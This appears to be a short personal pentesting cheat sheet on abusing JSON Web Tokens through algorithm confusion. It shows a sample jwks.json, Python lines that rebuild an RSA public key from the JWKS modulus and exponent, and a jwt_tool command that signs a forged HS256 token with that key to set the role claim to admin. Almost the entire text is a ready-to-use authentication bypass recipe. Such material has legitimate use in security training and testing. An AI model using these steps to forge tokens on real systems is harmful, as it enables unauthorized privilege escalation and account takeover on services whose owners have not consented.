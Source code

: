 ```yaml
---
title: "JWT"
date: 2024-8-1
tags: ["jwt", "jwks", "forge", "cookies"]
---
```


---
### Abuse #1: Algorithm confusion

#### 0. Sample jwks.json

```
{ 
    "keys": [
        {
        "kty": "RSA",
        "use": "sig",
        "alg": "RS256",
        "n": "<BASE64_n>",
        "e": "AQAB"
        }
    ]
}
```

#### 1. Create a public key

```bash
python3
```

```bash
from base64 import urlsafe_b64decode
```

```bash
from Crypto.PublicKey import RSA
```

```bash
e = int.from_bytes(urlsafe_b64decode(b'AQAB'))
```

```bash
n = int.from_bytes(urlsafe_b64decode(b'<BASE64_n>'))
```

```bash
key = RSA.construct((n, e))
```

```bash
# Save it to public.pem
print(key.exportKey().decode())
```

#### 2. Forge a jwt

[jwt_tool](https://github.com/ticarpi/jwt_tool)

```bash
# For example, modify role to admin
python3 jwt_tool.py -S hs256 -k public.pem -I -pc role -pv admin <JWT>
```

<br>